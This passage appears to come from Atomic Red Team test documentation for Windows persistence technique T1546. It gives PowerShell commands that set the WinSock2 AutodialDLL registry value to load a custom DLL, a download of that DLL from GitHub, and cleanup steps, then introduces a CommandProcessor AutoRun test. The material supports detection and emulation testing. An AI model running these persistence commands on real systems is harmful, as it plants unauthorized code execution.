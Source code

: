 
**auto_generated_guid:** aca9ae16-7425-4b6d-8c30-cad306fdbd5b






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters -Name AutodialDLL -Value PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll
```

#### Cleanup Commands:
```powershell
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters -Name AutodialDLL -Value  $env:windir\system32\rasadhlp.dll
```



#### Dependencies:  Run with `powershell`!
##### Description: AltWinSock2DLL DLL must exist on disk at specified at PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll
##### Check Prereq Commands:
```powershell
if (Test-Path PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll) { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1546\bin\" -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546/bin/AltWinSock2DLL.dll" -OutFile "PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll"
```




<br/>
<br/>

## Atomic Test #2 - HKLM - Persistence using CommandProcessor AutoRun key (With Elevation)
An adversary may abuse the CommandProcessor AutoRun registry key to persist. Every time cmd.exe is executed, the command defined in the AutoRun key also gets executed.
[reference](https://devblogs.microsoft.com/oldnewthing/20071121-00/?p=24433)

**Supported Platforms:** Windows


**auto_generated_guid:** a574dafe-a903-4cce-9701-14040f4f3532




